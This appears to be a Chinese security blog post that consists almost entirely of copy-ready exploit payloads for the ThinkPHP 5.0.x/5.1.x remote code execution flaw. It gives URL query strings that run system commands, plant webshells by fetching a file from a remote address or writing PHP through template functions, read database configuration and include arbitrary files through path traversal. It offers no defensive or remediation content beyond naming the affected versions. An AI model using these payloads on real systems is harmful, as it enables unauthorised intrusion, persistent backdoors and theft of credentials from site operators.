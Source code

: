 这个漏洞的影响范围应该是  
  
ThinkPHP5<5.0.23、ThinkPHP5.1<5.1.30  
  
  
**命令执行**  
```
```  
```
5.0.x
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
5.1.x
?s=index/\think\Request/input&filter[]=system&data=whoami
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```  
```
```  
  
**shell**  
```
```  
```
5.0.x
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=copy(%27远程地址%27,%27333.php%27)
5.1.x
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\view\driver\Think/display&template=<?php phpinfo();?>             //shell生成在runtime/temp/md5(template).php
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=copy(%27远程地址%27,%27333.php%27)
```  
```
```  
  
**其他**  
```
```  
```
5.0.x
?s=index/think\config/get&name=database.username // 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    // 包含任意文件
?s=index/\think\Config/load&file=../../t.php     // 包含任意.php文件
```  
  
  
**往期推荐**  
  
  
  
[原创 | Golang爬虫框架初探](http://mp.weixin.qq.com/s?__biz=MzI4Mzc0MTI0Mw==&mid=2247494566&idx=1&sn=85c2b7c5e52b23ea20a4609169ab94be&chksm=eb84b6f2dcf33fe4be2f797ca751fb543048af89603e2b9f7068c00bb204734e55f5d4e3bf1f&scene=21#wechat_redirect)  
  
  
[原创 | 浅析JNDI注入](http://mp.weixin.qq.com/s?__biz=MzI4Mzc0MTI0Mw==&mid=2247494519&idx=1&sn=20c3467fa972b6a6576d76ae9d7684de&chksm=eb84b623dcf33f3582c87dd3ec272b262f2a3abff9131706a7bb4bb408c57099e919498085ea&scene=21#wechat_redirect)  
  
  
[原创 | CVE-2019-0808](http://mp.weixin.qq.com/s?__biz=MzI4Mzc0MTI0Mw==&mid=2247494467&idx=1&sn=6188bd48221567077d761d469d56cea7&chksm=eb84b617dcf33f01566c397e682fe4dfc34c0da21f026f5c723d38c73a7e94db582ea965f4b2&scene=21#wechat_redirect)  
  
  
